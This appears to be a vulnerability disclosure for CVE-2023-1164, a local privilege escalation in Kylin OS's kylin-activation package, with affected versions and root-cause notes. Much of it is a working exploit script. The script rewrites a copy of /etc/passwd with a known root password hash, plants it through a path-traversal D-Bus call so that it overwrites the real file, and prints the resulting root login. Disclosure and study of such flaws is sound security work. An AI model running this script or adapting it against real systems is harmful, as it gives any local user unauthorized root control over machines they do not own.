 # Kylin OS kylin-activation privilege escalation vulnerability

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）

### CVE ID
CVE-2023-1164
## Report
### Describe

The kylin-activation package is a component used by Kylin OS for authorization verification and activation. The software package does not strictly restrict the legality of the import file operation, so the directory where the system configuration file is located is imported into an illegal configuration file, resulting in the elevation of local privileges of ordinary users.


### Hazard level
High
### Affected version
- Desktop：kylin-activation < 1.3.11-23
- Server：kylin-activation < 1.30.10-5.p23
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.sh
```
echo "[*] Trying to overwrite passwd file ..."
cp /etc/passwd /tmp/passwd
sed -i 's/root:x:0:0:root/root:\$1\$nrDGqnHa\$EhGl0D2EBPmnQTC2hGvgl.:0:0:root/g' /tmp/passwd
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
dbus-send --system --dest=org.freedesktop.activation /org/freedesktop/activation org.freedesktop.activation.interface.import_auth_file string:../tmp/passwd
sleep 1
echo '[*] Try login with root / 123qwe!@#QWE'
```
Run as a low-privileged user on the target OS:

<img width="515" alt="image" src="https://user-images.githubusercontent.com/35441986/223699923-d87d24fe-2cad-4999-983b-d3b76d70624e.png">

First, use the head -n 1 command to check the first line of /etc/passwd and find that it is normal：
```
root:x:0:0:root
```
Then, after running the exploit.sh script, recheck the content of the first line of /etc/passwd again, and found that it has been exploited successfully, and /etc/passwd has been replaced with the content controlled by the attacker. Then use the account password output by the script, use the su command, and find that the authority has been successfully raised to root authority.

### Vuln details
org.freedesktop.activation::import_auth_file receive files

<img width="700" alt="image" src="./imgs/CVE-2023-1164_1.png">

If the file exists, the service copies the file to /etc, causing arbitrary files to be written in the /etc directory

<img width="700" alt="image" src="./imgs/CVE-2023-1164_2.png">

